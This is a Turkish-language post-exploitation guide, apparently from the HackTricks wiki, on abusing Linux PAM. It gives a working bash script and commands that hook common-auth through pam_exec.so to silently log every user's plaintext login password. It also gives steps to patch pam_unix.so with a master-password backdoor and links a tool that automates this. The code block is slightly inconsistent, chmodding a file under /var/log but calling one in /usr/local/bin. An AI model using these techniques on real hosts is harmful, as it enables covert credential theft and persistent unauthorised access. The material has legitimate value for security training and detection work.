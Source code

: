 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## PAM ile Giriş Parolalarını Dinleme

Her kullanıcının giriş yapmak için kullandığı parolayı kaydetmek üzere bir PAM modülü yapılandıralım. PAM'ın ne olduğunu bilmiyorsanız kontrol edin:


{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**Daha fazla detay için [orijinal gönderiyi](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) kontrol edin**. Bu sadece bir özet:

**Teknik Genel Bakış:**
Eklentili Kimlik Doğrulama Modülleri (PAM), Unix tabanlı sistemlerde kimlik doğrulama yönetiminde esneklik sunar. Giriş süreçlerini özelleştirerek güvenliği artırabilir, ancak kötüye kullanıldığında riskler de oluşturabilir. Bu özet, PAM kullanarak giriş kimlik bilgilerini yakalama tekniğini ve buna karşı önleme stratejilerini özetlemektedir.

**Kimlik Bilgilerini Yakalama:**

- `toomanysecrets.sh` adlı bir bash betiği, giriş denemelerini kaydetmek için oluşturulmuştur; tarih, kullanıcı adı (`$PAM_USER`), parola (stdin üzerinden) ve uzak ana bilgisayar IP'si (`$PAM_RHOST`) bilgilerini `/var/log/toomanysecrets.log` dosyasına kaydeder.
- Betik çalıştırılabilir hale getirilir ve `pam_exec.so` modülü kullanılarak PAM yapılandırmasına (`common-auth`) entegre edilir; bu, sessizce çalıştırma ve kimlik doğrulama belirtecini betiğe açma seçenekleri ile yapılır.
- Bu yaklaşım, ele geçirilmiş bir Linux ana bilgisayarının kimlik bilgilerini gizlice kaydetmek için nasıl istismar edilebileceğini göstermektedir.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### PAM'e Arka Kapı Eklemek

**Daha fazla detay için [orijinal gönderiye](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9) bakın**. Bu sadece bir özet:

Eklentili Kimlik Doğrulama Modülü (PAM), Linux altında kullanıcı kimlik doğrulaması için kullanılan bir sistemdir. Üç ana kavram üzerinde çalışır: **kullanıcı adı**, **şifre** ve **hizmet**. Her hizmetin yapılandırma dosyaları `/etc/pam.d/` dizininde bulunur; burada paylaşılan kütüphaneler kimlik doğrulamasını yönetir.

**Amaç**: PAM'i, belirli bir şifre ile kimlik doğrulamasına izin verecek şekilde değiştirmek, gerçek kullanıcı şifresini atlayarak. Bu, şifre doğrulaması için neredeyse tüm hizmetler tarafından dahil edilen `common-auth` dosyasında kullanılan `pam_unix.so` paylaşılan kütüphanesine özellikle odaklanmaktadır.

### `pam_unix.so`'yu Değiştirme Adımları:

1. **Kimlik Doğrulama Yönergesini Bulun** `common-auth` dosyasında:
   - Bir kullanıcının şifresini kontrol eden satır `pam_unix.so`'yu çağırır.
2. **Kaynak Kodunu Değiştirin**:
   - `pam_unix_auth.c` kaynak dosyasında, önceden tanımlanmış bir şifre kullanıldığında erişim izni veren bir koşullu ifade ekleyin, aksi takdirde normal kimlik doğrulama sürecine devam edin.
3. **Derleyin ve Değiştirilmiş** `pam_unix.so` kütüphanesini uygun dizinde değiştirin.
4. **Test**:
   - Önceden tanımlanmış şifre ile çeşitli hizmetlere (giriş, ssh, sudo, su, ekran koruyucu) erişim izni verilirken, normal kimlik doğrulama süreçleri etkilenmez.

> [!TIP]
> Bu süreci [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) ile otomatikleştirebilirsiniz.

{{#include ../../banners/hacktricks-training.md}}
